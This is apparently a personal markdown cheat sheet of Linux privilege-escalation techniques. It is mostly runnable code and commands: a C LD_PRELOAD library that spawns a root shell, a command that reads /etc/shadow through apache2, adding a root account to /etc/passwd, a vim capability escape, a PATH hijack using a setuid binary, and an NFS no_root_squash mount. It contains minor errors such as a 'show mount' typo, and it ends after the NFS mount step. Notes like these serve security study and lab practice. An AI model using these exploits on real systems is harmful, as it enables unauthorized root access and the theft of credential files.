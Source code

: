 # Linux PrivEsc

## Leverage Application Functions
You may be able to use installed applications to gain access to configuration files.

Specify an alternate configuration file. This will error out, but reveal the first line of the shadow file:
```sh
apache2 -f  /etc/shadow
```

## Leverage LD_PRELOAD
A program that allows any programs to use shared libraries. If the `env_keep` option is enabled we can generate our own shared library that will be loaded and executed before the program is run.

Note: `LD_PRELOAD` will be ignored if the real userID != effective userID

### Example Exploit

shell.c
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

Compile:
```sh
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Run the program by specifying `LD_PRELOAD`
```sh
sudo LD_PRELOAD=/home/user/lbpreload/shell.so find
```

## SUID
If a binary exists we with the SUID bit set, we may be able to use [GTFOBins](https://gtfobins.github.io)

Find all files with SUID set:
```sh
find / -type f -perm -04000 -ls 2>/dev/null
```

## Edit /etc/passwd
You may be able to add your own user account to the file.

Generate hash:
```sh
openssl passwd -1 -salt ANYTHING MYPASSWORD

username:<HASH>:0:0:root:/root:/bin/bash
```

## Capabilities
Help manage privileges at a granualor level. Alters binaries to provide functionality without the permissions.

List capabilities:
```sh
getcap -r / 2>/dev/null
```

Exploit VIM
```sh
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

## PATH
An environmental variable that tells the os where to search for executables.

    1. Do you have write permissions on any folders?
    2. Can you modify the `PATH`
    3. Can you start a script / application?

Set PATH:
```sh
export PATH=/tmp:$PATH
```

Find writeable files:
```sh
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```

### Exploit

1. Create a script to launch a system binary (test). Not quite sure why I need the syntax too look like that, but doesn't seem to work otherwise.

example.c
```c
#include <unistd.h>

void main()
{ setuid(0);
setgid(0);
system("/bin/bash");
return 0;
}
```

Complie & Permissions
```c
gcc example.c -o exploit -w
chmod u+s exploit
```

2. Place script in a writeable location:
```c
echo "/bin/bash" > /tmp/test
chmod 7777 /tmp/test
```

## NFS
Network File sharing configuration is kept in `/etc/exports` and created during server installation.

no_root_squash:
- NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If `no_root_squash` is present on a writable share we can create an executable with the `SUID` bit set.

Attacking Machine
```sh
show mount -e

mkdir /tmp/mymountname
mount -o rw 10.10.10.10:/target /tmp/mymountname
```
